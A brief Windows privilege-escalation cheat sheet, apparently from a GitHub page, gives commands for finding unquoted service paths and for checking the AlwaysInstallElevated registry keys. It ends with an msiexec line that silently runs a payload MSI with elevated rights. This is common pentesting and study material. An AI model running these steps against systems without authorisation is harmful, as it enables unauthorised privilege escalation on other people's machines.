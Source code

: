 [Unquoted Service Paths](#unquoted-service-paths)  
[Missing Windows Patches](#missing-windows-patches)  
[AlwaysInstallElevated](#alwaysinstallelevated)

## Unquoted Service Paths
```
 wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """
 ```
##### Example
C:\Program Files\A Subfolder\B Subfolder\C Subfolder\SomeExecutable.exe  
In order to run SomeExecutable.exe, the system will interpret this path as follows:  
1. C:\Program.exe
2. C:\Program Files\A.exe
3. C:\Program Files\A Subfolder\B.exe
4. C:\Program Files\A Subfolder\B Subfolder\C.exe
5. C:\Program Files\A Subfolder\B Subfolder\C Subfolder\SomeExecutable.exe  

If C:\Program.exe is not found, then C:\Program Files\A.exe would be executed. If C:\Program Files\A.exe is not found, then C:\Program Files\A Subfolder\B.exe would be executed and so on.  

*source: https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae

## AlwaysInstallElevated

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
A value of 0x1 in both of these registry keys indicates a regular user is able to execute msi files with automatic elevated privileges.  

Generating a payload packaged in an msi file would be executed with elevated privileges on the target.

```
c:\msiexec /quiet /qn /i <payload.msi>
```

